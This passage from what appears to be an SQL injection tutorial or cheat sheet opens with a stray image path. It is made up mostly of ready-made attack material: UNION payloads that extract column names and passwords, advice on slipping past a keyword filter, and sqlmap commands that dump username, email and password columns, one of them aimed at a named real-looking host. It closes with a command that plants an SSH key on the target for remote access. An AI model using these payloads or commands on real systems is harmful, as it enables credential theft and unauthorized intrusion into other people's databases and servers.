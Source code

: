 ```SQL
Email=' UNion select 1,2,3,concat(column_name, "@test.com") FROM information_schema.columns where table_name="tablename" limit 2,1 -- -
```

```SQL
Email= ' UNion select 1,2,3,concat(password, “@test.com”) FROM tablename limit 1,1 -- -
```

You can also use \[GROUP\_CONCAT] instead of \[concat] as it combines entire column in one result. #Example \[union] filter is below

```SQL
if(strpos($user,"UNION") || strpos($user,"INFORMATION_SCHEMA") || strpos($user,"union") ) { 
echo "Error"; die; 
}
```

Notice that the filter prohibits \[“UNION”, “INFORMATION\_SCHEMA”, and “union”] as characters hence if you modify on the \[union] command a bit you can easily bypass it.

#### SQL Injection with sqlmap

**Grabbing the Database software**

```
root@kali: sqlmap -u example.com/product/14* --banner
```

we put star as the vulnerable parameter is not clear to us or

```
root@kali:sqlmap -r req.txt --current-db
```

**Listing Tables**

```
root@kali: sqlmap -u catalog.sph-assets.com/product/14* --tables
```

or

```
root@kali:sqlmap -r request.txt -D social --tables
```

**Dump entries from a specific table**

```
root@kali: sqlmap -u example.com/product/14* -T users_field_data –dump
```

**Dumping specific columns from a table**

```
root@kali:sqlmap -r request.txt -D social -T users -C username,email,password --dump
```

**Writing SSH keys with sqlmap to the remote host to have SSH access ( you need to create your key pairs first locally before transferring them to the remote host)**

```
root@kali: sqlmap -u example.com/product/14* --file write=/root/.ssh/id_rsa.pub –file destination=/home/mysql/.ssh/
```
